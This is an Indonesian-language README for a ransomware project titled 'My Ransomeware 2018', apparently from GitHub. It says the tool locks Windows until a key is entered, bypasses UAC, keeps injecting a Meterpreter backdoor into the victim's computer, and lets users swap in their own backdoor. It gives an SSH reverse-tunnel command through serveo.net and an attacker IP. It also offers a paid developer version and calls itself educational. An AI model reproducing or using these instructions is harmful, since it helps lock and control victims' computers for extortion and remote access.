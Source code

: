 # My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder [VirusUI] atau mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe untuk mendapatkan akses UAC.

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Ini untuk edukasi saja, jadi gunakan dengan bijak :D

- Jika anda menginginkan versi developer software ini, anda bisa hubungi saya dan tidak gratis. 

- Kasih saya donasi untuk kopi dan rokok :D

- [Remember] Saya bukan hacker ataupun cracker. hanya saja saya suka mengulik sesuatu.
